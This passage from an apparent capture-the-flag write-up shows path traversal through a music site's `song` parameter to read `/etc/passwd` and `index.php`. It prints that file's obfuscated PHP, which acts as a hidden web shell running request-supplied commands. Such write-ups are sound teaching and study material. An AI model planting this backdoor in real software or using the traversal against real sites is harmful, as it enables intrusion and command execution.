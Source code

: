 #### Solution 

So the website shows a music player and each song is fetched via an API.

Capture the API `/music.php?song=`, we can get the Path Traversal.

!["Reading the /etc/passwd with Path Traversal"](13.png "Reading the /etc/passwd with Path Traversal")

Next, we can try reading the flag which should be at `/flag.txt` but in this challenge it's not with the same `flag.txt` name so, we need to get command injection somehow to read the flag.

Next, we can try reading other files so let's try to read the `index.php` file.

!["Reading the index.php"](14.png "Reading the index.php")


This may seem quite overwhelming with the obfuscated code, but breaking it down little by little makes it easier.

```php
<?php $_=``.[];$__=@$_;$_= $__[0]; $_1 = $__[2]; $_1++;$_1++;$_1++;$_1++;$_1++;$_1++;$_++;$_++;$_0 = $_;$_++;$_2 = ++$_; $_55 = '_'.(','^'|').('/'^'`').('-'^'~').(')'^'}');$_74 = ('{'^':').('`'^'/').('='^'{').('#'^'`').(')'^'}').('`'^'&').('@'^'r').('k'^'_'); $_ = $_2.$_1.$_2.$_0; $_($$_55[$_74.'_oEC8QYaYKp']);?>
```

